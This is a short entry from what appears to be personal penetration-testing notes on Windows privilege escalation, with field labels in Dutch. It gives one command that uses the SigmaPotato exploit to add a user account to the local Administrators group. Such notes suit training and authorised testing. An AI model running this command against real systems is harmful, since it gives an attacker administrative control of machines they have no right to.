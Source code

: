 # 17. Windows Privilege Esc — Entry 62

## Categorie

Using exploits

## Commando

```
.\SigmaPotato "net localgroup Administrators dave4 /add"
```

## Omschrijving

```
Adding the user in the admin group with SigmaPotato
```

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

